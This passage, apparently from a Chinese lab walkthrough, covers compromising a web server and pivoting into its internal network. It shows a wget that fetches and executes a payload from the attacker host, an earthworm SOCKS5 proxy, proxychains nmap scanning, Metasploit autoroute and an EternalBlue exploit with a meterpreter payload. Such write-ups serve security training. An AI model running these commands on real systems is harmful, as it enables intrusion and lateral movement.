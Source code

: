 攻击机开启 python 简单 web 服务：`python -m SimpleHTTPServer` 。

目标机执行：

```
wget http://192.168.0.108:8000/shell.elfchmod 777 shell.elf./shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxLukiauhXMtnPrMZezWpzRZrseK4tpvlB7kJeSq347WbJSxuJXDXlq0g/640?wx_fmt=png)image-20200726233418499

攻击机 msf 得到会话：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxZbJAsROguxXAmWsJWicS1fZJAZzWicYfOXA1icHQP7eUt627iaL0US1stw/640?wx_fmt=png)image-20200726232718663

接下来我们要做的就是设置代理通向内网、扫描内网主机、添加路由继续渗透等等。

攻入内网
====

我们在目标 Web 服务器上面上传 earthworm，并开启 socks5 正向代理：

```
./ew_for_linux64 -s ssocksd -l 1080
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxdVQfvEh7ECJr2DGduWLc1TQN9ZlnFHVsNmZrqUjpTYAmPS2dlI9RFw/640?wx_fmt=png)image-20200726234217342![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxbN5JT5sibgticJ4qddJtSdGiaicfSDN5AMia5tbApiccn0wJcSgyf0YV2R9w/640?wx_fmt=png)image-20200726234049550

之后攻击机配置好 proxychains：

```
vim /etc/proxychains.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx2pXcibUa9cgVfl6LhVCmodAiaQh98ibDuAadeJJGB2mst1kW3fjY5vFAQ/640?wx_fmt=png)image-20200726233903099

此时，我们攻击机上的应用程序就可以通过 proxychains 代理进目标内网了。探测目标内网的主机存活：

```
proxychains4 nmap -sT -Pn 192.168.183.1/24 > nmap.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPhXkxiaAeJ5iaDrF5nVs6xqzseAMoib004m1TkDUm8DmjEENibGT2u5fZw/640?wx_fmt=png)image-20200727001019376

经过扫描可以得知目标内网中还有 192.168.183.130 和 192.168.183.131 这两台主机。

既然是攻击内网，我们当然少不了试试 ms17_010 了，我们先在 msf 上添加一个通往内网的路由：

```
run autoroute -s 192.168.183.0/24run autoroute -p
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxribao0aj9OPFhI8WPaBrMzNtUBC1SfIcSYhycbnX4G78R9k56b9641w/640?wx_fmt=png)image-20200726235550002

添加成功，开始扫描目标内网中存在 ms17_010 永恒之蓝漏洞的主机：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx93xZBwhPuqDjP3uc2oFN1HAJeqYJjzQwRxZfrnJttStY9ss53NQ2icg/640?wx_fmt=png)image-20200727005348396

发现两个主机都存在漏洞，先打那个 Windows 7（192.168.183.131）：

```
setg Proxies socks5:192.168.0.105:1080       // 设置代理，不设置代理ms17_010很难打通use exploit/windows/smb/ms17_010_eternalblueset payload windows/x64/meterpreter/bind_tcpset rhost 192.168.183.131set lport 4444set AutoRunScript post/windows/manage/migrate             // 自动迁移进程run
```
